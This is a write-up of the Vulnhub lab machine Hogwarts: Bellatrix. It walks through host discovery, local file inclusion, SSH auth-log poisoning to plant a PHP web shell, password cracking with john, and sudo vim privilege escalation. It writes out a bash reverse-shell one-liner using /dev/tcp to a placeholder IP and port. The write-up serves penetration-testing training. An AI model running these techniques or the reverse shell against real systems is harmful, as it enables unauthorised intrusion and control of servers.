

# Hogwarts: Bellatrix - Writeup

Bellatrix is the second of two Hogwarts VM series from Vulnhub by BLY.<br />
It's a Medium level machine.<br />
Link to the machine: [https://www.vulnhub.com/entry/hogwarts-bellatrix,609/](https://www.vulnhub.com/entry/hogwarts-bellatrix,609/) 

<br />

## Target discovery

The first step is identifying our target's IP address.

```
sudo netdiscover -i vboxnet0 -r 10.10.10.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts

2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 102
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
10.10.10.1      08:00:27:e9:cd:e1      1      42  PCS Systemtechnik GmbH
10.10.10.7      08:00:27:49:7b:93      1      60  PCS Systemtechnik GmbH
```
<br />

## Scanning The Target

Let's scan our target for open ports, running services, and version detection.


<br />

We have `SSH` and `HTTP`.

<br />

## Enumeration

Examining the web page.


<br />
<br />

Let's inspect the source code.


<br />
<br />

There's a comment hinting us to a directory with LFI. When we visit the directory `ikilledsiriusblack.php` nothing changed, so the page exists.


<br />
<br />

Let's try to include a file like `/etc/passwd`.


<br />
<br />

## Getting access

So, we have `LFI (local file inclusion)`, and in Nmap result, we saw that we have ssh.<br />
`SSH Log Poisoning` will give us the ability to make a reverse shell in the web server.<br />
First, let's read the auth log.


<br />
<br />

Now, let's ssh to the server with any name.


<br />
<br />

Back to the log file.


<br />
<br />

As we see above, the username we tried is logged. Let's inject a php web shell code in place of the username.


<br />
<br />

Navigate to `auth.log`.


<br />
<br />

Run some commands like `id`, `ls`, or `whoami`.


<br />
<br />

Now, let's make the server connect back to us, open a listener, and modify this reverse shell.
`bash -c 'bash -i >& /dev/tcp/<IP>/<Port> 0>&1'`. Encode it if it doesn't work.


<br />
<br />

We got a reverse shell, upgrade it.


<br />
<br />

In `/var/www/html`, there's a directory with base64 encoded name, decode it.


<br />
<br />

secrets or `c2Vj...` contains two files, one contains a user with his password, and the other one is a worldlist.


<br />
<br />

Let's move them to our machine and crack the password.


<br />
<br />

Crack the password with `john`.


<br />
<br />

Now, switch to `lestrange` via su or ssh.


<br />
<br />

There's a `readme.txt` in `lestrange`'s directory.


<br />
<br />
	
## root access

Let's escalate our privileges.


<br />
<br />

We could use `vim` to get root access [https://gtfobins.github.io/gtfobins/vim/#sudo](https://gtfobins.github.io/gtfobins/vim/#sudo)


<br />
<br />

Finally, let's get our flags.


<br />